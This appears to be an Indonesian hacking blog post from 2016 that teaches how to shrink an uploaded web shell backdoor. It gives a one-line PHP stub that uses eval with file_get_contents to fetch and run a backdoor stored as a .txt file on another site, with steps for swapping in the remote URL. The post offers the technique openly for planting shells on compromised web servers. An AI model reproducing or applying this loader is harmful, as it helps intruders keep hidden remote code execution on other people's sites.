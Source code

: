 ```yaml
---
title: 'Trik Memperkecil Size Shell Backdoor'
date: 2016-06-04T07:45:00.000-07:00
draft: false
aliases: [ "/2016/06/trik-memperkecil-size-shell-backdoor.html" ]
tags : [Knowledge]
---
```


[![](https://1.bp.blogspot.com/-8yayiUBJWYE/WFwD27Q4zEI/AAAAAAAABkM/RZk9pZkV4HAeIlN_79z6WKNE0n8xFM6KwCLcB/s320/size-logo.png)](https://1.bp.blogspot.com/-8yayiUBJWYE/WFwD27Q4zEI/AAAAAAAABkM/RZk9pZkV4HAeIlN_79z6WKNE0n8xFM6KwCLcB/s1600/size-logo.png)

  
Trik ini simple banget dan gw lihat belum banyak yang tau trik ini :)  
So apa salahnya kalau gw share triknya dimari..  
siapa sih yang kadang mau upload shell terus size kegedean ? pasti nunggunya agak lama kan, hehe  
Kali ini kita memanfaatkan function file\_get\_contents pada php  
  
Langkah Langkah :  
1\. Buat script seperti ini:  

> \[<?php eval("?>".file\_get\_contents("XXX"));?>\]

2\. Ganti XXX dengan backdoor (file.php) yang terupload di web dengan format (.txt). Lebih jelasnya lihat gambar dibawah :D  

[![](https://4.bp.blogspot.com/-BvOzN3mKejU/V1Locd2uTVI/AAAAAAAAAyc/LcI-gTEX90sxCIItfcLlKyKjHYThiuILQCLcB/s640/Screenshot_117.png)](https://4.bp.blogspot.com/-BvOzN3mKejU/V1Locd2uTVI/AAAAAAAAAyc/LcI-gTEX90sxCIItfcLlKyKjHYThiuILQCLcB/s1600/Screenshot_117.png)

3\. Jadi nanti seperti ini "...file\_get\_contents("sitemu.com/filemu.txt")..."  
4\. Dan lihat size backdoormu  sekarang, gak sampek 1kb :'v  

[![](https://4.bp.blogspot.com/-wO19YsCtQPI/V1L4vEZWQmI/AAAAAAAAAys/kqCKQ2BKrJwGzw_LpXUty5qqplBRB06PwCLcB/s640/Screenshot_118.png)](https://4.bp.blogspot.com/-wO19YsCtQPI/V1L4vEZWQmI/AAAAAAAAAys/kqCKQ2BKrJwGzw_LpXUty5qqplBRB06PwCLcB/s1600/Screenshot_118.png)

  
  
Semoga Bermanfaat :)